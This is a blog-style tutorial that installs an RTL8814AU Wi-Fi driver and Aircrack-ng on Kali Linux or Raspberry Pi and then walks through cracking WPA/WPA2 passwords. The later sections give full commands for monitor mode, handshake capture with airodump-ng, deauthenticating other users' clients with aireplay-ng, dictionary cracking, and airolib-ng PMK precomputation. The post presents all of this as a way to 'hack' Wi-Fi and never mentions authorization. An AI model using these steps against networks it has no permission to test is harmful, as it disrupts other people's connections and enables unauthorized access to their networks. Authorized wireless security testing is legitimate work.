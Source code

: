 ```yaml
---
title: Using Aircrack-ng with RTL8814AU
date: '2019-07-28'
tags: []
---
```


For Kali Linux users who want to hack 2.4/5GHz Wi-Fi.
RTL8812AU/21AU and RTL8814AU are the best chipsets.

Here's the wifi dongle I'm going to use: [TP-LINK Archer T9UH](https://wikidevi.com/wiki/TP-LINK_Archer_T9UH)

![Archer-T9UH.png](/static/images/Archer-T9UH.png)

Here's the wifi driver I'm going to use: [aircrack-ng/rtl8812au](https://github.com/aircrack-ng/rtl8812au.git)

## Installing Driver

Plug-in your Wi-Fi dongle. Execute `lsusb`.

```sh
lsusb
```

![Archer-T9UH-lsusb.png](/static/images/Archer-T9UH-lsusb.png)

Check if the device ID is supported by the [driver](https://github.com/aircrack-ng/rtl8812au/blob/v5.6.4.1/os_dep/linux/usb_intf.c#L259)

```c
{USB_DEVICE(0x2357, 0x0106), .driver_info = RTL8814A}, /* TP-LINK Archer T9UH */
```

The ID of TP-LINK Archer T9UH is `2357:0106`.

Clone the project

```sh
git clone https://github.com/aircrack-ng/rtl8812au.git
```

RTL8814AU is newer than RTL8812AU.

Some improvements come with the latest version.

Checkout to the newest git branch.

```sh
git checkout v5.6.4.1
```

The installation is pretty easy. Just use the script.

```sh
sudo apt install dkms
sudo ./dkms-install.sh
```

If you are using ARM CPU such as Raspberry Pi. Change platform in Makefile.

e.g. I'm using RPI 3 B+ with the official Raspbian OS. It's 32 bit.

```sh
sed -i 's/CONFIG_PLATFORM_I386_PC = y/CONFIG_PLATFORM_I386_PC = n/g' Makefile
sed -i 's/CONFIG_PLATFORM_ARM_RPI = n/CONFIG_PLATFORM_ARM_RPI = y/g' Makefile
```

If you are using Kali Linux. You can also install the driver from source.

```sh
sudo apt install realtek-rtl88xxau-dkms
```

## Installing Aircrack-ng

(Aircrack-ng is preinstalled in Kali Linux)

```sh
sudo apt install aircrack-ng
```

Here's the official instruction: [Installing pre-compiled binaries](https://aircrack-ng.org/doku.php?id=install_aircrack#installing_pre-compiled_binaries)

If you want to compile it on your own.

The latest stable version is 1.5.2 currently.

```sh
git clone https://github.com/aircrack-ng/aircrack-ng.git
cd aircrack-ng
git checkout 1.5.2
```

```sh
sudo apt install build-essential autoconf automake libtool pkg-config libnl-3-dev libnl-genl-3-dev libssl-dev ethtool shtool rfkill zlib1g-dev libpcap-dev libsqlite3-dev libpcre3-dev libhwloc-dev libcmocka-dev hostapd wpasupplicant tcpdump screen iw usbutils
```

```sh
./autogen.sh
make
make install
```

## Monitoring Wi-Fi

Check interfaces

```sh
sudo airmon-ng
```

```sh
PHY	Interface	Driver		Chipset

phy0	wlan0		brcmfmac	Broadcom 43430
phy1	wlan1		88XXau		TP-Link
```

Kill all possible programs that could interfere with the wireless card.

```sh
sudo airmon-ng check kill
```

Turn wlan1(RTL8814AU) into monitor mode.

```sh
sudo airmon-ng start wlan1
```

OR

```sh
sudo iwconfig wlan1 mode Monitor
```

Then

```sh
sudo airodump-ng wlan1
```

OR indicate the band 'a' to hop 5GHz

```sh
sudo airodump-ng wlan1 -b a
```

## Crack WPA/WPA2 Wi-Fi Password

Capture Data

```sh
sudo airodump-ng -c 36 –d XX:XX:XX:XX:XX:XX -w hack wlan1
```

De-authenticate the connected clients with `aireplay-ng`

`-0` means de-auth, 50 means 50 counts.  
`-a` sets Access Point MAC address.  
`-c` sets destination MAC address.  

```sh
sudo aireplay-ng -0 50 -a XX:XX:XX:XX:XX:XX -c [Client MAC Address] wlan1
```

You'll get a WPA handshake

![WPA-handshake.png](/static/images/WPA-handshake.png)

Crack password with dictionary-attack

```sh
aircrack-ng -b XX:XX:XX:XX:XX:XX hack-01.cap -w /path/to/wordlist
```

Here is a project on GitHub for dictionary-attack: [Probable-Wordlists](https://github.com/berzerk0/Probable-Wordlists)

## Speed up Crack with Airolib-ng

>Airolib-ng is an aircrack-ng suite tool designed to store and manage essid and password lists, compute their Pairwise Master Keys (PMKs) and use them in WPA/WPA2 cracking.

### Download Passwords dictionary

[Probable-Wordlists Downloads](https://github.com/berzerk0/Probable-Wordlists/blob/master/Downloads.md)

### Setting up the database

#### Create SSID list

```sh
airolib-ng wpaDatabase --import essid ssidlist.txt
```

#### Create Password list

```sh
airolib-ng wpaDatabase --import passwd passwords.txt
```

#### Clean Database

```sh
airolib-ng wpaDatabase --clean all
```

#### Create your PMK’s

```sh
airolib-ng wpaDatabase --batch
```

#### Cracking

```sh
aircrack-ng -r wpaDatabase hack-01.cap
```

